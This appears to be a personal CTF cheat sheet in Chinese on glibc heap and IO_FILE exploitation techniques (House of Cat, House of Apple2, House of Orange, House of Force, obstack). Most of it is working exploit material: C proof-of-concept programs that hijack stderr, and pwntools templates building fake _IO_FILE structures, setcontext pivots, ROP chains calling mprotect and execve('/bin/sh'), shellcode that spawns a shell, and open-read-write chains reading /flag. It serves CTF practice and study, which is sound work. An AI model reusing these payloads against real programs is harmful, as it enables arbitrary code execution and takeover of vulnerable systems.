# House-Of-Main

## README

- 分析的有点乱，有点垃圾，有空重新分析下

## House Of cat

- 利用条件

1.能够任意写一个可控地址。

2.能够泄露堆地址和libc基址。

3.能够触发IO流（FSOP或触发__malloc_assert，或者程序中存在puts等能进入IO链的函数），执行IO相关函数.

4. 2.35之前是可以用的，2.36 之后就不可以用了

‍

exit 调用 正常结束程序 main 函数 retrun 0;

‍

‍

> 需要触发这条链，topchunk 的size 需要 为 0x55 0x56  （一般通过large bin attack c错位修改 top_chunk的size）

‍

执行malloc 时会检查 top_chunk的size，只要出问题他就会进入 `__malloc_assert`​

‍

- 分析

‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);

	* stderr_ = ptr - 2; // 修改stderr 里的指针执行 我们的堆地址

	ptr[0x508/8] =  0x55;

	malloc(0x500);

	return 0;
}
```

‍

### 1.触发前提

‍

先改top_chunk的size


‍

### 2._IO_flockfile

​`__malloc_assert`​ -> `__fxprintf`​ -> `locked_vfxprintf`​

stderr 是我们伪造的堆地址

​​​​

​`_IO_flockfile (fp);`​

​`mov    rdi, qword ptr [rbx + 0x88]`​ 取stderr+0x88 的内容放到 rdi

​`cmp    rbp, qword ptr [rdi + 8]`​  rdi 必须是一个地址



‍

‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);

	* stderr_ = ptr - 2;

	ptr[0x508/8] =  0x55;
	ptr[0x78/8] =  "AAAA";

	malloc(0x500);

	return 0;
}
```

下面还有判断，需要为一个可写地址

‍



‍

```python
pwndbg> p *stderr
$1 = {
  _flags = 0,
  _IO_read_ptr = 0x511 <error: Cannot access memory at address 0x511>,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x0,
  _fileno = 0,
  _flags2 = 0,
  _old_offset = 0,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x5555555581b0,  # 可写地址
  _offset = 0,
  _codecvt = 0x0,
  _wide_data = 0x0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0,
  _mode = 0,
  _unused2 = '\000' <repeats 19 times>
}
```

‍

ok 然后继续

​`malloc`​ -> `_int_malloc`​ -> `sysmalloc`​ (然后触发 `__malloc_assert`​)

​`__malloc_assert`​ -> `__fxprintf`​ -> `locked_vfxprintf`​ -> `__vfprintf_internal`​

‍

### 3. __vfprintf_internal -> _IO_vtable_check

‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);
	size_t heap_addr = ptr - 0x2a0;
	size_t _F = libc_base + 2187456;
	* stderr_ = ptr - 2;

	ptr[0x508/8] =  0x55;
	ptr[0x78/8] =  heap_addr;
	ptr[0x90/8] =  _F;
	ptr[0xb0/8] =  1;

	//ptr[(0x78+0x38)/8] = 0;

	malloc(0x500);

	return 0;
}
```

```c
$1 = {
  _flags = 0,
  _IO_read_ptr = 0x511 <error: Cannot access memory at address 0x511>,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x0,
  _fileno = 0,
  _flags2 = 0,
  _old_offset = 0,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x5555555581b0,
  _offset = 0,
  _codecvt = 0x0,
  _wide_data = 0x7ffff7e160c0 <_IO_wfile_jumps>,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0,
  _mode = 1,
  _unused2 = '\000' <repeats 19 times>
}
```



‍

‍

‍

需要过掉这个检测 `_IO_vtable_check()`​ return vtable;



‍

### 最终

‍



‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);
	size_t heap_addr = ptr - 0x2a0;
	size_t _F = libc_base + 2187456;
	* stderr_ = ptr - 2;

	ptr[0x508/8] =  0x55;
	ptr[15] =  heap_addr+0x600; // _lock
	ptr[25] =  _F+0x10;

	ptr[18] = ptr - 2; //wide _data
	ptr[1] = 1;
	ptr[2] = 2;
	ptr[2] = 0x123;
	ptr[26] = ptr-1;
	malloc(0x500);

	return 0;
}
```

‍

‍

‍

‍

### exit触发

‍

### 1.实操可能会遇到的一些问题

‍

> 在实际操作中，可能因为 stderr 的指针存放在 bss 段上，从而导致无法篡改。只能使用 exit 来触发 FSOP，但是又会发现如果通过 exit 来触发 FSOP，会遇到在 exit 中也有调用指针保护的函数指针执行，但此时的异或内容被我们所篡改，使得无法执行正确的函数地址，且此位置在 FSOP 之前，从而导致程序没有进入 IO 流就发生了错误。

‍

```python
b *_IO_flush_all_lockp

p (struct _IO_FILE_plus)*0x55ff9d61a290
```

‍


‍

‍

- 小计流程

‍

​`_IO_cleanup`​ -> `_IO_flush_all_lockp`​ -> `_IO_vtable_check`​

‍

```pyhon
p _IO_wfile_jumps

b *_IO_flush_all_lockp
```

‍

### 总结

‍

### 调试过程

‍

‍

exit(-1) 触发

‍

​`exit`​ -> `__run_exit_handlers`​ -> `_IO_cleanup  (call   qword ptr [rbx])`​ -> `_IO_flush_all_lockp`​

‍

‍

‍

### 板子

```python
libc_base = mr - 2202848
_IO_list_all = libc_base +  libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']


def dbg():
    ls(hex(mr))
    ls(hex(libc_base))
    ls(hex(_IO_list_all))
    ls(hex(heap_base))
    gdb.attach(io)

# 2352
pay = p64(mr) * 2
#pay += p64(heap_base + 2352)+p64(_IO_list_all-0x20)
pay += p64(_IO_list_all-0x20) * 2
pay += b'\n'
edit(1,pay)
##pause()
add(6,0x538)

libc = ELF(libelf)
libc.address = libc_base
libc_rop = ROP(libc)

mprotect   = libc.sym['mprotect']
setcontext = libc.sym['setcontext']
RCE = setcontext + 61
ls(hex(mprotect))
## rdx + 0xa8
#ogg = [0x50a37,0xebcf1,0xebcf5,0xebcf8]
#RCE  = ogg[2]+ libc_base
#print(hex(RCE))
#
#
#libc.address = libc_base
#libc_rop = ROP(libc)

setcontext_rcx = libc_base + 0x000000000013cf8d
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
ls(hex(rax))
#shellcode_addr = fake_IO_addr + 248
## 0x0000000000090529 # pop rdx ; pop rbx ; ret
##pause()

fake_IO_addr = heap_base + 7200
ls('fake_IO_addr:'+hex(fake_IO_addr))
ls('libc_base:'+hex(libc_base))

fake_IO_FILE  = p64(8)
fake_IO_FILE += p64(RCE) # call # setcontext + 61 # libc2.35
fake_IO_FILE += p64(0) +p64(1) # _IO_write_base # _IO_write_ptr
fake_IO_FILE += p64(fake_IO_addr) # fp->_IO_write_ptr
fake_IO_FILE += p64(rdi) + p64(heap_base) + p64(rsi) + p64(0x21000) + p64(rdx) + p64(7) # pop*5 to me
fake_IO_FILE += p64(fake_IO_addr+0xc0)
fake_IO_FILE += p64(mprotect) # 也可以 read 
fake_IO_FILE += p64(fake_IO_addr + 248) # shellcode_addr
fake_IO_FILE  = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(setcontext_rcx) # setcontext Tow CALL #need pop * 5 ;ret
fake_IO_FILE  = fake_IO_FILE.ljust(0xb0,b'\x00')
fake_IO_FILE += p64(1) # mode
fake_IO_FILE  = fake_IO_FILE.ljust(0xc8,b'\x00')
fake_IO_FILE += p64(_IO_wfile_jumps + 0x30)
fake_IO_FILE  = fake_IO_FILE.ljust(0xe0,b'\x00')
fake_IO_FILE += p64(fake_IO_addr)
fake_IO_FILE += asm(shellcraft.sh()) ## 根据实际情况看看需不需要
fake_IO_FILE += b'\n'
```

- 简洁一点

‍

```python
libc_base = mr - 2202848
_IO_list_all = libc_base +  libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']


def dbg():
    ls(hex(mr))
    ls(hex(libc_base))
    ls(hex(_IO_list_all))
    ls(hex(heap_base))
    gdb.attach(io)

# 2352
pay = p64(mr) * 2
#pay += p64(heap_base + 2352)+p64(_IO_list_all-0x20)
pay += p64(_IO_list_all-0x20) * 2
pay += b'\n'
edit(1,pay)
##pause()
add(6,0x538)


## rdx + 0xa8
#ogg = [0x50a37,0xebcf1,0xebcf5,0xebcf8]
#RCE  = ogg[2]+ libc_base
#print(hex(RCE))
#
#
#libc.address = libc_base
#libc_rop = ROP(libc)


libc = ELF(libelf)
libc.address = libc_base
libc_rop = ROP(libc)

# tel	_IO_list_all&
#setcontext_rcx = libc_base + 0x000000000013cf8d # # rbpstart
pop_5 = libc_rop.find_gadget(['pop rbx','pop rbp','pop r12','pop r13','pop r14','ret'])[0]
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]

mprotect   	= libc.sym['mprotect']
setcontext      = libc.sym['setcontext']
_IO_list_all    = libc.sym['_IO_list_all']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']

RCE = setcontext + 61

fake_IO_addr = heap_base + 7200
fake_IO_FILE  = p64(8)
fake_IO_FILE += p64(RCE) # call # setcontext + 61 # libc2.35
fake_IO_FILE += p64(0) +p64(1) # _IO_write_base # _IO_write_ptr
fake_IO_FILE += p64(fake_IO_addr) # fp->_IO_write_ptr
fake_IO_FILE += p64(rdi) + p64(heap_base) + p64(rsi) + p64(0x21000) + p64(rdx) + p64(7) # pop*5 to me
fake_IO_FILE += p64(fake_IO_addr+0xc0)
fake_IO_FILE += p64(mprotect)
fake_IO_FILE += p64(fake_IO_addr + 248) # shellcode_addr
fake_IO_FILE  = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(pop_5) # setcontext Tow CALL #need pop * 5 ;ret
fake_IO_FILE  = fake_IO_FILE.ljust(0xb0,b'\x00')
fake_IO_FILE += p64(1) # mode
fake_IO_FILE  = fake_IO_FILE.ljust(0xc8,b'\x00')
fake_IO_FILE += p64(_IO_wfile_jumps + 0x30)
fake_IO_FILE  = fake_IO_FILE.ljust(0xe0,b'\x00')
fake_IO_FILE += p64(fake_IO_addr)
fake_IO_FILE += asm(shellcraft.sh())
fake_IO_FILE += b'\n'
```

‍

### ORW 模板

‍

```python
heap_base = xx - 1952
libc.address = libc_base
_IO_list_all    = libc.sym['_IO_list_all']
add(0x60,p64(_IO_list_all-0x20))


add(0x60,'/bin/sh\x00')
add(0x60,'/bin/sh\x00')
add(0x60,'/bin/sh\x00')
pay = p64(0)*2 + p64(heap_base + 2832)
add(0x60,pay)

libc.address = libc_base
libc_rop = ROP(libc)
system          = libc.sym['system']
mprotect        = libc.sym['mprotect']
setcontext      = libc.sym['setcontext']
__free_hook     = libc.sym['__free_hook']
_IO_list_all    = libc.sym['_IO_list_all']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]

RCE = setcontext + 61
fake_IO_addr = heap_base + 2832
shellcode_addr = fake_IO_addr + 248
pop_5_ret = libc_base + 1270861         # pop 5*;ret  # libc.2.31 9.7
pop_5_ret = libc_base + 1270861 - 0x30  # pop 5*;ret  # libc.2.31 9.12
pop_5_ret = libc_rop.find_gadget(['pop rbx','pop rbp','pop r13','pop r14','pop r15','ret'])[0]
#lss('pop_5_ret')
#gdb.attach(io)

fake_IO_FILE  = p64(8)
fake_IO_FILE += p64(RCE) # call
fake_IO_FILE += p64(0) +p64(1) # _IO_write_base # _IO_write_ptr
fake_IO_FILE += p64(fake_IO_addr) # fp->_IO_write_ptr
fake_IO_FILE += p64(rdi) + p64(heap_base) + p64(rsi) + p64(0x1000) + p64(rdx) + p64(7) # pop*5 to me
fake_IO_FILE += p64(fake_IO_addr+0xc0)
fake_IO_FILE += p64(mprotect)
fake_IO_FILE += p64(shellcode_addr)
fake_IO_FILE  = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(pop_5_ret) # setcontext Tow CALL #need pop * 5 ;ret
fake_IO_FILE  = fake_IO_FILE.ljust(0xb0,b'\x00')
fake_IO_FILE += p64(1) # mode
fake_IO_FILE  = fake_IO_FILE.ljust(0xc8,b'\x00')
fake_IO_FILE += p64(_IO_wfile_jumps + 0x30)
fake_IO_FILE  = fake_IO_FILE.ljust(0xe0,b'\x00')
fake_IO_FILE += p64(fake_IO_addr)
fake_IO_FILE += asm(shellcraft.cat('/flag'))

add(0x400,fake_IO_FILE)
lss('libc_base')
lss('heap_base')
lss('_IO_list_all')
#gdb.attach(io,'brva 0x001354')
#gdb.attach(io,'b *_IO_switch_to_wget_mode')
#rm(1)
ru('>> \n')
sl('4')

io.interactive()
```

## House Of apple2

‍

### libc 2.23 printf 触发 apple2?

- 打的是 `_IO_2_1_stdout_`​
- 劫持bss 上的 stdout 指针  或者 直接在 `_IO_2_1_stdout_`​ 里写 payload

‍

```python
fake_file = FileStructure()
fake_file.flags = 0
fake_file._IO_write_ptr = p64(1)
fake_file.chain = p64(0x414141)
fake_file._wide_data = p64(fake_IO_addr)
fake_file.vtable = p64(_IO_wfile_jumps)
fake_file = bytes(fake_file)+p64(fake_IO_addr)
```

‍

‍

### libc-2.35  2.37 puts 触发 house ( 没 setbuf stdout)

‍

#### attack target

‍

这里试的是 libc 2.35 版本， 攻击的是 stdout 存储的指针

‍

```python
stdout = libc.sym['stdout'] # 可以任意地址申请到附近
_IO_2_1_stderr_ = libc.sym['_IO_2_1_stderr_']
# 由于一些问题我们可以申请到  stdout -0x28的地址
edit(12,p64(key ^ (stdout-0x28))+b'\n')

# tcachebin list

```

‍

- 小结  保证 伪造的 地址的 低4为是0

‍



‍

然后 add 拿到地址的控制全，改指针

‍

```python
pay = p64(0x0)*4+p64(_IO_2_1_stderr_)+p64(fake_IO_addr) # 由于不是直接申请到 stdout 所以需要填充一下
```


‍

#### Fake_IO_FILE

‍

- 此攻击流 只是 一个 SYS_read , 后面的ROP 链再传进去，

‍

```python
libc = elf.libc
libc.address = libc_base
libc_rop = ROP(libc)

setcontext = libc.sym['setcontext']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

fake_IO_addr = heap_addr + 3936 # 指向 chunk fd # 如果是 lager bin attack 可以指向 prve_size  然后  标记1可以 * 2
rsp =  fake_IO_addr
fake_IO_FILE  = p64(0) * 4 # 可以调整这里  标记1
fake_IO_FILE += p64(setcontext + 61)
fake_IO_FILE += p64(0) * 10
fake_IO_FILE += p64(0)              # rdi
fake_IO_FILE += p64(fake_IO_addr)   # rsi
fake_IO_FILE += p64(fake_IO_addr+0x100)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0x300)          # rdx
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(rsp)
fake_IO_FILE += p64(syscall)          # syscall SYS_read(0,fake_IO_addr,0x300)
fake_IO_FILE += p64(0) * 3
fake_IO_FILE += p64(_IO_wfile_jumps + 0x20-0x40)
fake_IO_FILE += p64(0) * 2
fake_IO_FILE += p64(fake_IO_addr-0x68+0x20)
```


‍

- IO_FILE system

‍

> libc 2.35
>
> libc 2.37

```python
libc = elf.libc
libc.address = libc_base
libc_rop = ROP(libc)

setcontext = libc.sym['setcontext']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

fake_IO_addr = heap_addr + 160 # 指向 chunk fd # 如果是 lager bin attack 可以指向 prve_size  然后  标记1可以 * 2
rsp =  fake_IO_addr
fake_IO_FILE  = b' sh\x00\x00\x00\x00\x00' + p64(0) * 3 # 可以调整这里  标记1
#fake_IO_FILE += p64(setcontext + 61)
fake_IO_FILE += p64(libc.sym['system'])
fake_IO_FILE += p64(0) * 10
fake_IO_FILE += p64(0)              # rdi
fake_IO_FILE += p64(fake_IO_addr)   # rsi
fake_IO_FILE += p64(fake_IO_addr+0x100)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0x300)          # rdx
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(rsp)
fake_IO_FILE += p64(syscall)          # syscall SYS_read(0,fake_IO_addr,0x300)
fake_IO_FILE += p64(0) * 3
fake_IO_FILE += p64(_IO_wfile_jumps + 0x20-0x40)
fake_IO_FILE += p64(0) * 2
fake_IO_FILE += p64(fake_IO_addr-0x68+0x20)
```

‍

‍

#### ORW_ROP

- 然后再传入我们的ROP

‍

```python
pause()

########### version 1
## ORW_ROP
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xb8) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)


########### version 2
## ORW_ROP
libc.address = libc_addr
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
m = 0
try:
    rdx = libc_rop.find_gadget(['pop rdx','ret'])[0];m = 1
except:
    rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]; m = 2
	# rdi = libc_base + 0xb503c;m=5
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = stack # ret to addr
buf = orw_rop_addr + 0xa0 + m*3*8
orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(buf) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*m + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
```



‍



‍

- 参考UDCTF 12 第一次调试这个 house 是用的这个题

‍

‍

#### ORW_execve

‍

```python
pause()

## ORW_execve
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

execve_addr = fake_IO_addr

execve_rop = p64(rax) + p64(0x3b) + p64(rdi) + p64(execve_addr +0x50) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
execve_rop += b'/bin/sh'.ljust(0x10,b'\x00')
sl(execve_rop)


```

‍

‍

‍

## 低版本打 exit IO流

‍

- 伪造 stderr

```python
pay = flat({
    0x00: 0,
    0x28: 0xffffffff,
    0xd8: libc.symbols['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
    0xe0: 0
}, filler=b"\x00")
```

‍

- 好文章

```url
https://bbs.kanxue.com/thread-272471.htm#msg_header_h1_1


```

‍

_IO_str_jumps指向很多函数，可以说是一个函数表，其内部0x20偏移处为_IO_str_underflow能够通过打印符号表查找到

同时通过search -p能够查找到存储指针的位置（即_IO_str_jumps内部）

一般来说是最下面那个，因为要比如下这个东西的地址更高

‍

‍

## House of Orange

> House of Orange 与其他的 House of XX 利用方法不同，这种利用方法来自于 Hitcon CTF 2016 中的一道同名题目。由于这种利用方法在此前的 CTF 题目中没有出现过，因此之后出现的一系列衍生题目的利用方法我们称之为 House of Orange。

‍

> House of Orange 的利用比较特殊，首先需要目标漏洞是堆上的漏洞但是特殊之处在于题目中==不存在 free ==函数或其他释放堆块的函数。我们知道一般想要利用堆漏洞，需要对堆块进行 malloc 和 free 操作，但是在 House of Orange 利用中无法使用 free 函数，因此 House of Orange 核心就是通过漏洞利用获得 free 的效果。

‍

> 我们总结一下伪造的 top chunk size 的要求
>
> 1. 伪造的 size 必须要对齐到内存页
> 2. size 要大于 MINSIZE(0x10)
> 3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
> 4. size 的 prev inuse 位必须为 1
>
> 之后原有的 top chunk 就会执行`_int_free`​从而顺利进入 unsorted bin 中。

‍

> 什么是对齐到内存页呢？我们知道现代操作系统都是以内存页为单位进行内存管理的，一般内存页的大小是 4kb。那么我们伪造的 size 就必须要对齐到这个尺寸。在覆盖之前 top chunk 的 size 大小是 20fe1，通过计算得知 0x602020+0x20fe0=0x623000 是对于 0x1000（4kb）对齐的。

```pyhon
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1 <== top chunk
0x602030:   0x0000000000000000  0x0000000000000000
```

> 因此我们伪造的 fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对 4kb 对齐的 size。而 0x40 不满足对齐，因此不能实现利用。

‍

‍

- 以 2.35 为例

由于需要页页对齐，0x291应该是系统申请的，我们需要申请一个和前面堆块互补的，使top chunk 的起始位 是 (top_chunk_addr  & 0xFFF)==0x000 也就是4k对齐，保证这样之后，我们在去接着下面的操作.

```python
size = 0x1000-0x290-0x10
add(0,size)
```

‍



如何利用 edit 溢出，修改top chunk 的size

```python
pay = b'A' * (size)
pay += p64(0) + p64(0x1001)
edit(0,len(pay),pay)
```

‍



申请一个大于 0x1000的

```python
add(1,0x2000)
```

top chunk 已经在 unsortedbin了




申请的 0x2000 都不知道跑到哪里了,不管了

‍


‍

然后我们再次申请就会从 `unsortedbin`​ 里分割，然后再show(2)我们已经可以的到main_arena

‍

```python
add(2,0x100)
```



- 完整过程

```python

size = 0x1000-0x290-0x10
add(0,size)

pay = b'A' * (size)
pay += p64(0) + p64(0x1001)
edit(0,len(pay),pay)

add(1,0x2000)


add(2,0x100)
show(2)
ru('cont : ')
main_arena = uu64(r(6))
libc_base = main_arena -2204400
ls(hex(main_arena))
ls(hex(libc_base))
gdb.attach(io)

```

‍

=============================================

‍

- 或者是这样



‍

​`(top_chunk_add + top_chunk_size)  & 0xfff = 0x000`​ 应该就可以了

上面只是为了演示，正常情况下我们伪造的 top chunk size 的低位应该是 1

‍

```python
add(4, 0x88,b'A'*0x88 + p64(0xfd1))
# 添加一个可以靠近top chunk的 堆块，然后溢出把top chunk 的 size 覆盖
```

‍


‍

- 再申请一个大于 top_chunk 的堆块

```python
add(5, 0x1000, b'add chunk 2')
```

‍

- 然后top chunk 就会这样，进入 unsortedbin,



然后再申请第三个堆块时，他会从 unsortedbin 里分割出来.然后再show 就可以把 main_arena 打印出来

```python
add(5, 0x200, b'chunk--3')
```

‍



‍

‍

## House Of Force

- 介绍

House Of Force 属于 House Of XXX 系列的利用方法，House Of XXX 是 2004 年《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》中提出的一系列针对 glibc 堆分配器的利用方法。 但是，由于年代久远《The Malloc Maleficarum》中提出的大多数方法今天都不能奏效，我们现在所指的 House Of XXX 利用相比 2004 年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文： [https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt](https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt)

- 原理 [¶](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-force/#_2 "Permanent link")

House Of Force 是一种堆利用方法，但是并不是说 House Of Force 必须得基于堆漏洞来进行利用。如果一个堆 (heap based) 漏洞想要通过 House Of Force 方法进行利用，需要以下条件：

1. 能够以溢出等方式控制到 top chunk 的 size 域
2. 能够自由地控制堆分配尺寸的大小

‍

- 参考 2023 羊城杯 决赛 easy_force

‍

## obstack

‍

```python
https://www.cnblogs.com/7resp4ss/p/17486261.html
```

‍

```python
payload = flat(
	{
		0x18:1,
		0x20:0,
		0x28:1,
		0x30:0,
		0x38:address_for_call,
		0x48:address_for_rdi,
		0x50:1,
		0xd8:&_IO_obstack_jumps+0x20，
		0xe0:this_mem_address,
	},
	filler = '\x00'
)
```

## libc2.29 攻击 IO21stderr_exit触发

```python
pay = flat({
    0x00: 0,
    0x28: 0xffffffff,
    0x30: 1,
    0x70: b'/bin/sh',
    0x90: libc.sym['system'],
    0x98: libc.sym['_IO_2_1_stderr_']+0x70,
    0xa0: libc.sym['_IO_2_1_stderr_'],
    0xd8: libc.symbols['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
    0xe0: 0
}, filler=b"\x00")
```

‍

## libc.2.39 Orange
